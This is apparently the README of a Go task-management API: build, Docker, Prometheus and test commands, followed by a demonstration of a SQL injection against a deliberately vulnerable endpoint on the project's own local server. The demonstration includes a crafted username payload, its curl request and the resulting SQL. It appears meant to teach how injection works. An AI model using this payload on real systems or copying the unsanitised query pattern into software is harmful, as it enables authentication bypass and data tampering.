 ## Run / Build

---

Run only

```shell
make run
```

Build only

```shell
make build
```

## Docker-compose

---

```shell
make c.build
```

```shell
make c.up
```

## Docs

---

http://127.0.0.1:45222/doc/index.html

## Tests

---

```shell
make tests
```

## Metrics

---

### Prometheus

```yaml
# prometheus.yml

- job_name: api-tm
  scrape_interval: 15s
  static_configs:
    - targets:
      - 127.0.0.1:45222
```

**api_tm_request_http_requests_total** - total number of requests, their methods and paths.

![Total requests](docs/grafana-example.png)

## Files

- _docs/*_ - swagger files(OpenAPI)
- _configs/conf.toml_ - settings
- _scripts/create_tables.sql_ - postgres tables 
- _logs/app.log_ - api errors 

## Manual run / building / generation

---

#### OpenAPI(generation)

```shell
swag init -g cmd/app/main.go
```

#### Tests

```shell
go test -failfast ./...
```

#### Run only

```shell
go run cmd/app/main.go
```

#### Build and run

```shell
go build -o apitm cmd/app/main.go
```

```shell
./apitm
```

#### Docker(local DB)

```shell
docker build . -t apitm:v0.1
```

```shell
docker run --rm --network=host apitm:v0.1
```

#### Docker-compose

```shell
docker-compose build
```

```shell
docker-compose up
```

## Example SQL-injection

---

### Create new user -> qwerty:qwerty 

```shell
curl -u admin:admin --location 'http://127.0.0.1:45222/api/v1/manage/user' \
--header 'Content-Type: application/json' \
--data '{
    "username": "qwerty",
    "password": "qwerty"
}'
```

### Create task with injection

USERNAME - **qwerty'), false, 'SQL INJECTION', now(), now()) -- '**

PASSWORD - **any**

```shell
curl --location 'http://127.0.0.1:45222/api/v1/task/create-task-injection' \
--header 'Authorization: Basic cXdlcnR5JyksIGZhbHNlLCAnU1FMLWlJTkpFQ1RJT04nLCBub3coKSwgbm93KCkpIC0tICc6YW55' \
--header 'Content-Type: application/json' \
--data '{
    "title": "SQL INJECTION"
}'
```

#### Response - Internal Server Error(500)

```json
{
    "type": "INTERNAL",
    "comment": "create task"
}
```

#### But the task has been created. Because the request to the database:

```sql
INSERT INTO
    task(user_id, status, title, created, updated)
VALUES
    ((SELECT user_id FROM auth WHERE username = 'qwerty'), false, 'SQL-iINJECTION', now(), now()) -- '' AND password = 'df69d4a3aa4eca782c7cb526841c7e60fb6015806c2ef41df95bfa1afe8427a6'), false, 'SQL INJECTION', now(), now()) RETURNING  task_id  
```

#### DB rows

![Example SQL-injection](docs/sql-injection.png)




